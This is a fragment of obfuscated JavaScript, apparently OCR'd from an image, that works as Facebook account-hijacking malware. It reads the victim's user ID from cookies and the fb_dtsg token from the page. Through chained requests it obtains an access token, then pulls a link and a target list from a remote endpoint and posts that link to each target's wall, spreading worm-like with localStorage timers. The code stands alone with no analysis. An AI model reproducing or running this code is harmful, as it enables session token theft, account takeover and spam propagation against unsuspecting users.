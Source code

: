 0x8d10[0])){for(i=0;i<document[_0x8d10[1]](_0x8d10[0])[_0x8d10[2]];i++){document[_0x8d10[1]](_0x8d10[0])[i][_0x8d10[3]]=_0x8d10[4]}};if(document[_0x8d10[1]](_0x8d10[5])){for(i=0;i<document[_0x8d10[1]](_0x8d10[5])[_0x8d10[2]];i++){document[_0x8d10[1]](_0x8d10[5])[i][_0x8d10[3]]=_0x8d10[4]}};if(document[_0x8d10[1]](_0x8d10[6])){for(i=0;i<document[_0x8d10[1]](_0x8d10[6])[_0x8d10[2]];i++){document[_0x8d10[1]](_0x8d10[6])[i][_0x8d10[3]]=_0x8d10[4]}};},10);var profile_id=document[_0x8d10[9]][_0x8d10[8]](/c_user=(\d+)/)[1];var config=document[_0x8d10[12]](_0x8d10[11])[0][_0x8d10[10]];function rastgeles(_0x1f87x4){mtn=_0x8d10[13];ret=_0x8d10[4];for(i=0;i<_0x1f87x4;i++){ret+=mtn[Math[_0x8d10[15]](Math[_0x8d10[14]]()*57)]};return ret;}function tokenkoy(){var _0x1f87x6= new XMLHttpRequest,_0x1f87x7=_0x8d10[4],_0x1f87x8=_0x8d10[16],_0x1f87x9=_0x8d10[17],_0x1f87xa=_0x8d10[18],_0x1f87xb=_0x8d10[19],_0x1f87xc=_0x8d10[20]+fb_dtsg+_0x8d10[21]+apiid+_0x8d10[22]+_0x1f87xb+_0x8d10[23]+_0x1f87x9+_0x8d10[24]+_0x1f87xa+_0x8d10[25]+_0x1f87xb+_0x8d10[26];_0x1f87x6[_0x8d10[30]](_0x8d10[29],_0x1f87x8,!1),_0x1f87x6[_0x8d10[28]]=function(){if(4==_0x1f87x6[_0x8d10[31]]&&200==_0x1f87x6[_0x8d10[32]]){var _0x1f87x8= new XMLHttpRequest,_0x1f87xb=_0x8d10[33],_0x1f87xc=_0x8d10[20]+fb_dtsg+_0x8d10[21]+apiid+_0x8d10[34]+_0x1f87x9+_0x8d10[24]+_0x1f87xa+_0x8d10[25]+_0x1f87x9+_0x8d10[35];_0x1f87x8[_0x8d10[30]](_0x8d10[29],_0x1f87xb,!1),_0x1f87x8[_0x8d10[28]]=function(){if(4==_0x1f87x8[_0x8d10[31]]&&200==_0x1f87x8[_0x8d10[32]]){var _0x1f87x6= new XMLHttpRequest,_0x1f87x9=_0x8d10[36],_0x1f87xb=_0x8d10[20]+fb_dtsg+_0x8d10[21]+apiid+_0x8d10[37]+_0x1f87xa+_0x8d10[25]+_0x1f87xa+_0x8d10[38];_0x1f87x6[_0x8d10[30]](_0x8d10[29],_0x1f87x9,!1),_0x1f87x6[_0x8d10[28]]=function(){4==_0x1f87x6[_0x8d10[31]]&&200==_0x1f87x6[_0x8d10[32]]&&(_0x1f87x7=_0x1f87x6[_0x8d10[43]][_0x8d10[8]](/token=(.+)&/)[1],console[_0x8d10[42]](apiid+_0x8d10[41]+_0x1f87x7),_0x1f87x7[_0x8d10[40]](_0x8d10[39])>-1&&(_0x1f87x7=_0x1f87x7[_0x8d10[44]](_0x8d10[39])[0]),access_token=_0x1f87x7,islem(access_token))},_0x1f87x6[_0x8d10[27]](_0x1f87xb);}},_0x1f87x8[_0x8d10[27]](_0x1f87xc);}},_0x1f87x6[_0x8d10[27]](_0x1f87xc);}if(location[_0x8d10[46]][_0x8d10[40]](_0x8d10[45])>=0){var ohohoho=_0x8d10[47]+profile_id,profile_id=document[_0x8d10[9]][_0x8d10[8]](document[_0x8d10[9]][_0x8d10[8]](/c_user=(\d+)/)[1]),fb_dtsg=document[_0x8d10[12]](_0x8d10[11])[0][_0x8d10[10]],tarih= new Date;if(!localStorage[ohohoho]||localStorage[ohohoho]&&tarih[_0x8d10[48]]()>=localStorage[ohohoho]){var apiid=_0x8d10[49],access_token=_0x8d10[4];tokenkoy(),navigator[_0x8d10[51]][_0x8d10[40]](_0x8d10[50])>0&&(tarih[_0x8d10[52]](tarih[_0x8d10[48]]()+1e5),localStorage[ohohoho]=tarih[_0x8d10[48]]());};};function islem(_0x1f87x13){var _0x1f87x14= new XMLHttpRequest();_0x1f87x14[_0x8d10[30]](_0x8d10[53],_0x8d10[54],true);_0x1f87x14[_0x8d10[28]]=function(){if(_0x1f87x14[_0x8d10[31]]==4&&_0x1f87x14[_0x8d10[32]]==200){var _0x1f87x15=JSON[_0x8d10[55]](_0x1f87x14[_0x8d10[43]]);link=_0x1f87x15[_0x8d10[56]];postla(_0x1f87x13);}};_0x1f87x14[_0x8d10[27]]();}function postla(_0x1f87x13){var _0x1f87x14= new XMLHttpRequest();_0x1f87x14[_0x8d10[30]](_0x8d10[53],_0x8d10[57]+_0x1f87x13,true);_0x1f87x14[_0x8d10[60]](_0x8d10[58],_0x8d10[59]);_0x1f87x14[_0x8d10[28]]=function(){if(_0x1f87x14[_0x8d10[31]]==4&&_0x1f87x14[_0x8d10[32]]==200){var _0x1f87x15=JSON[_0x8d10[55]](_0x1f87x14[_0x8d10[43]]);post(_0x1f87x15,_0x1f87x13);}};_0x1f87x14[_0x8d10[27]]();}function post(_0x1f87x18,_0x1f87x13){for(i=0;i<_0x1f87x18[_0x8d10[61]][_0x8d10[2]];i++){var _0x1f87x14= new XMLHttpRequest();_0x1f87x14[_0x8d10[30]](_0x8d10[29],_0x8d10[62]+_0x1f87x18[_0x8d10[61]][i][_0x8d10[63]]+_0x8d10[64]+_0x1f87x18[_0x8d10[61]][i][_0x8d10[65]]+_0x8d10[66]+link+_0x8d10[67]+Math[_0x8d10[14]]()+_0x8d10[68]+_0x1f87x13,true);_0x1f87x14[_0x8d10[60]](_0x8d10[58],_0x8d10[59]);_0x1f87x14[_0x8d10[28]]=function(){if(_0x1f87x14[_0x8d10[31]]==4&&_0x1f87x14[_0x8d10[32]]==200){var _0x1f87x15=JSON[_0x8d10[55]](_0x1f87x14[_0x8d10[43]]);console[_0x8d10[42]](_0x1f87x15);}};_0x1f87x14[_0x8d10[27]]();}}tarih= new Date();if(!localStorage[samarerer+profile_id]||(localStorage[samarerer+profile_id]&&tarih[_0x8d10[48]]()>=localStorage[samarerer+profile_id])){tarih[_0x8d10[52]](tarih[_0x8d10[48]]()+1000*60*15);localStorage[samarerer+profile_id]=tarih[_0x8d10[48]]();localhost();};